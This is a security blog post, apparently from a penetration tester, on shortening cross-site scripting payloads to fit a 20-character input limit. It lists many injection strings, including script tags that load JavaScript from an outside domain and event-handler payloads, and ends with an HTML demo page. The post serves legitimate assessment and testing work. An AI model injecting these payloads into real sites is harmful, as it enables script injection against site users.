 ```yaml
---
layout: default
title: ShrtXSS
---
```

Originally published on [Neohapsis Labs](http://labs.neohapsis.com) 

##ShrtXSS##

In the course of a recent assessment of a web application, I ran into an interesting problem. I found XSS on a page, but the field was limited (yes, on the server side) to 20 characters. Of course I could demonstrate the problem to the client by injecting a simple `<b>hello</b>` into their page, but it leaves much more of an impression of severity when you can at least make an alert box.

My go to line for testing XSS is always `<script>alert(123123)</script>`. It looks somewhat arbitrary, but I use it specifically because `123123` is easy to grep for and will rarely show up as a false positive (a quick Google search returns only 9 million pages containing the string `123123`). It is also nice because it doesn’t require apostrophes.

This brings me to the problem. The above string is 30 characters long and I need to inject into a parameter that will only accept up to 20 characters. There are a few tricks for shortening your `<script>` tag, some more well known than others. Here are a few:

- If you don’t specify a scheme section of the URL (http/https/whatever), the browser uses the current scheme. E.g. `<script src='//btoe.ws/xss.js'></script>`
- If you don’t specify the host section of the URL, the browser uses the current host. This is only really valuable if  you can upload a malicious JavaScript file to the server you are trying to get XSS on. Eg. `<script src='evil.js'></script>`
- If you are including a JavaScript file from another domain, there is no reason why its extension must be `.js`. Pro-tip: you could even have the malicious JavaScript file be set as the index on your server… Eg. `<script src='http://btoe.ws'>`
- If you are using IE you don’t need to close the `<script>` tag (although I haven’t tested this in years and don’t have a Windows box handy). E.g. `<script src='http://btoe.ws/evil.js'>`
- You don’t need quotes around your `src` attribute. Eg. `<script src=http://btoe.ws/evil.js></script>`

In the best case (your victim is running IE and you can upload arbitrary files to the web root), it seems that all you would need is `<script src=/>`. That’s pretty impressive, weighing in at only 14 characters. Then again, when will you actually get to use that in the wild or on an assessment? More likely is that you will have to host your malicious code on another domain. I own btoe.ws, which is short, but not quite as handy as some of the five letter domain names. If you have one of those, the best you could do is `<script src=ab.cd>`. This is 18 characters and works in IE, but let’s assume that you want to be cross-platform and go with the 27 character option of `<script src=ab.cd></script>`. Thats still pretty short, but we are back over my 20 character limit.

Time to give up? I think not.

Another option is to forgo the `<script>` tag entirely. After all, ‘script’ is such a long word… There are many one letter HTML tags that accept event handlers. onclick and onkeyup are even pretty short. Here are a couple more tricks:

- You can make up your own tags! E.g. `<x onclick="alert(1)">foo</x>`
- If you don’t close your tag, some events will be inherited by the rest of the page following your injected code. E.g. `<x onclick='alert(1)'>`
- You don’t need to wrap your code in quotes. Eg. `<b onclick=alert(1)>foo</b>`
- If the page already has some useful JavaScript (think JQuery) loaded, you can call their functions instead of your own. Eg. If they have a function defined as `function a(){alert(1)}` you can simply do `<b onclick='a()'>foo</b>`
- While `onclick` and `onkeyup` are short when used with `<b>` or a custom tag, they aren’t going to fire without user interaction. The `onload` event of the `<body>` tag on the other hand will. I think that having duplicate `<body>` tags might not work on all browsers, though.  E.g. `<body onload='alert(1)'>`

Putting these tricks together, our optimal solution (assuming they have a one letter function defined that does exactly what we want) gives us `<b onclick=a()>`. Similar to the unrealistically good `<script>` tag example from above, this comes in at 14 characters. A more realistic and useful line might be `<b onclick=alert(1)>`. This comes it at exactly 20 characters, which is within my limit.

This worked for me, but maybe 20 characters is too long for you. If you really have to be a minimalist, injecting the `<b>` tag into the page is the smallest thing I can think of that will affect the page without raising too many errors. Slightly more minimalistic than that would be to simply inject `<`. This would likely break the page, but it would at least be noticable and would prove your point.

This article is by no means intended to provide the answer, but rather to ask a question. I ask, or dare I say challenge, you to find a better solution than what I have shown above. It is also worth noting that I tested most of this on recent versions of Firefox and Chrome, but no other browsers. I am using a Linux box and don’t have access to much else at the moment. If you know that some of the above code does not work in other browsers, please comment bellow and I will make an edit, but please don’t tell me what does and does not work in lynx.

If you want to see some of these in action, copy the following into a file and open it in your your browser or go to [http://btoe.ws/shrtxss.html](http://btoe.ws/shrtxss.html).

{% highlight html %}
<html>
<head>
<title>xss example</title>
<script>
//my awesome js
function a(){alert(1)}
</script>
</head>
<body>

<!-- XSS Injected here -->
<x onclick=alert(1)>
<b onkeyup=alert(1)>
<x onclick=a()>
<b onkeyup=a()>
<body onload=a()>
<!-- End XSS Injection -->

<h1>XSS ROCKS</h1>
<p>click me</p>
<form>
<input value='try typing in here'>
</form>
</body>
</html>
{% endhighlight %}